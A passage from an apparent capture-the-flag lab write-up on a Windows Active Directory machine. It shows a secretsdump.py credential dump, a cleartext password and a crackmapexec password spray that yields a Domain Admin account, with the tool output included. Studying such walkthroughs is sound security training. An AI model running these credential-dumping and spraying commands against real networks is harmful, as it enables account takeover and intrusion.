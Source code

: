 The flag is located on the Desktop of `rhys.garner` user.
## DC01

In the `secretsdump.py` output, there was also the password for `rhys.garner`
```
secretsdump.py -k ws01.reflection.vl                                                                                                                                         
Impacket v0.11.0 - Copyright 2023 Fortra                                                                                                                                        
<SNIP>                                                                                                                                                     
reflection.vl\Rhys.Garner:knh1gJ8Xmeq+uP
```
I can try to password-spray all domain users with this password:
```
crackmapexec smb 10.10.230.149 -u users.txt -p knh1gJ8Xmeq+uP --continue-on-success
SMB         10.10.230.149   445    DC01             [*] Windows 10.0 Build 20348 x64 (name:DC01) (domain:reflection.vl) (signing:False) (SMBv1:False)
SMB         10.10.230.149   445    DC01             [-] reflection.vl\labadm:knh1gJ8Xmeq+uP STATUS_LOGON_FAILURE 
SMB         10.10.230.149   445    DC01             [-] reflection.vl\Georgia.Price:knh1gJ8Xmeq+uP STATUS_LOGON_FAILURE 
SMB         10.10.230.149   445    DC01             [-] reflection.vl\Michael.Wilkinson:knh1gJ8Xmeq+uP STATUS_LOGON_FAILURE 
SMB         10.10.230.149   445    DC01             [-] reflection.vl\Bethany.Wright:knh1gJ8Xmeq+uP STATUS_LOGON_FAILURE 
SMB         10.10.230.149   445    DC01             [-] reflection.vl\Craig.Williams:knh1gJ8Xmeq+uP STATUS_LOGON_FAILURE 
SMB         10.10.230.149   445    DC01             [-] reflection.vl\Abbie.Smith:knh1gJ8Xmeq+uP STATUS_LOGON_FAILURE 
SMB         10.10.230.149   445    DC01             [-] reflection.vl\Dorothy.Rose:knh1gJ8Xmeq+uP STATUS_LOGON_FAILURE 
SMB         10.10.230.149   445    DC01             [-] reflection.vl\Dylan.Marsh:knh1gJ8Xmeq+uP STATUS_LOGON_FAILURE 
SMB         10.10.230.149   445    DC01             [+] reflection.vl\Rhys.Garner:knh1gJ8Xmeq+uP 
SMB         10.10.230.149   445    DC01             [-] reflection.vl\Jeremy.Marshall:knh1gJ8Xmeq+uP STATUS_LOGON_FAILURE 
SMB         10.10.230.149   445    DC01             [-] reflection.vl\Deborah.Collins:knh1gJ8Xmeq+uP STATUS_LOGON_FAILURE 
SMB         10.10.230.149   445    DC01             [-] reflection.vl\svc_web_prod:knh1gJ8Xmeq+uP STATUS_LOGON_FAILURE 
SMB         10.10.230.149   445    DC01             [-] reflection.vl\svc_web_staging:knh1gJ8Xmeq+uP STATUS_LOGON_FAILURE 
SMB         10.10.230.149   445    DC01             [+] reflection.vl\dom_rgarner:knh1gJ8Xmeq+uP (Pwn3d!)
```
This user is part of the `Domain admins` group. I can simply login with RDP and read the flag from the Administrator's desktop
